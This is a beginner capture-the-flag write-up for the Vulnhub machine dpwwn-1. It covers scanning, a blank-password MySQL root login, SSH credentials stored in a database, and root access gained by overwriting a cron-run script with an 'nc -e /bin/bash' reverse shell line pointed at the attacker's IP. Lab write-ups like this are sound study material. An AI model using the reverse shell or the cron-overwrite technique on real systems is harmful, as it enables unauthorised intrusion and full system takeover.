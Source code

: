 ```yaml
---
layout: post
title: Vulnhub - dpwwn-1 writeup
date: 2019-08-19 7:20 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dpwwn-1,342/">dpwwn: 1</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/debashisace">  debashisace</a></h4>

## Nmap

![](images/dpwwn/nmap.png)

We can see that there is a SSH and HTTP service running. And other then that we have a MySql service running.

Since MySql is an unusal service we'll just start with that.

***

## MySQL

We can try to connect to the mysql service but obviously we need username and password for that.

I first tried to login with random usernames and blank password.

![](images/dpwwn/wrong.png)

Then I tried to use the common creds like `admin:admin` or `root:admin` or `root:` and the last one worked i.e username - `root` and blank password.

![](images/dpwwn/correct.png)

Since I was in the DB I started to look for anything interesting and I found a DB named `SSH` 😏😏. It had a table named `users` 😏😏, which had SSH creds. 😏😏

![](images/dpwwn/ssh-creds.png)

`mistic:testP@$$swordmistic`

***

## Privilege escalation

Since we are in the system let's just run the enumeration script and see if we can find anything good.

I didn't find any SUID but I found a file named `logrot.sh` in the home directory which was set to run in a cronjob as `root`.

![](images/dpwwn/cron.png)

Since this file will be running as root in cron we can exploit it in multiple ways. We can send a reverse shell or we can add another user with root privs etc.

Simple method is to do `echo "nc -e /bin/bash IP PORT" > logrot.sh` and then start a listner to get a reverse shell.

![](images/dpwwn/rev.png)

Now just start the listner with `nc -nlvp PORT` and wait to get the shell.

![](images/dpwwn/root-shell.png)

And now get the flag

![](images/dpwwn/root.png)

I am not sure what are these but there are some numbers attach to the flag in the end maybe they some extra task or something but I ain't doing it. 😜😜

![](images/dpwwn/nums.png)

***

Thanks to [@debashisace](https://twitter.com/debashisace) for this beginner level machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
